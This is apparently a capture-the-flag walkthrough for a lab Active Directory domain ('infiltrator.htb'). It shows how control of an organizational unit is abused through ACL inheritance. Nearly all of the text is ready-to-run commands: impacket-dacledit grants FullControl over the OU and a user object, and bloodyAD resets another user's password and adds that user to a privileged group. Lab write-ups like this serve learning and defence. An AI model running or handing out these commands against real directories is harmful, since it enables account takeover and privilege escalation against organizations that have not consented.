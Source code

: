
https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory


## Organizational Unit

#### Control of the Organization Unit

With full control of the OU, you may add a new ACE on the OU that will inherit down to the objects under that OU. Below are two options depending on how targeted you choose to be in this step:


![](Generic_All.png)

#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
└─# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'D.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

Now, the "d.anderson" user will have full control of Marketing Digital OU.
```



As, the next victim user which is on this OU, we can have full access over it too.

```
└─# impacket-dacledit -action 'write' -principal 'D.anderson' -target-dn 'CN=E.RODRIGUEZ,OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'D.anderson' -k -no-pass -dc-ip 10.10.11.31

After we own this OU, can modify other group , user objets in this OU.

bloodyAD.py -d infiltrator.htb -u d.anderson -k --host DC01.infiltrator.htb set password 'e.rodriguez' 'WAT?watismypass!' 


bloodyAD.py -d infiltrator.htb -u e.rodriguez -p 'WAT?watismypass!' --host DC01.infiltrator.htb add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" "e.rodriguez"

```








